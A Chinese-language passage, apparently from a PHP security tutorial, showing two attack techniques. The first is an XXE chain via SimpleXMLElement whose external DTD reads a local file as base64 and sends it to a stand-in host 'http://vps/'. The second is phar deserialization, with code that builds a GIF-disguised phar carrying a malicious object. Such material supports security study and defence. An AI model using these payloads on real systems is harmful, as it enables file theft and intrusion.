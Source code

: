 __construct 方法  
通常情况下无法触发, 当可以对任意类实例化时可以触发。

```
new SimpleXMLElement('http://vps/xxe_evil', LIBXML_NOENT, true)
```

  
xxe_evil  

```
<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://vps/xxe_read_passwd"> %remote; ]>
</root>
```

  
xxe_read_passwd  

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Windows/System32/drivers/etc/hosts">
<!ENTITY % int "<!ENTITY % trick SYSTEM 'http://vps/?xxe_local=%payload;'>">
%int;
%trick;
```

  
读取 hosts, **只读取了部分文件**  
![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGdtyAJaAB6Ngrialgj0ibrKLNdGjQPCfHPO7BocwxfnAV2djRsDqbmgc4g/640?wx_fmt=png)  

phar 反序列化

```
<?php
class demo{
public $t = "Test";
function __destruct(){
echo $this->t."win.";
}
}
file_exists("phar://./demo.phar");
?>
```

  
构造 phar 包  

```
<?php
class demo{
public $t = "Test";
function __destruct(){
echo $this->t."win.";
}
}
$obj = new demo;
$obj->t = "you";
$p = new Phar('./demo.phar',0);
$p->startBuffering();
$p->setMetadata($obj);
$p->setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
$p->addFromString('test.txt','test');
$p->stopBuffering();
?>
```

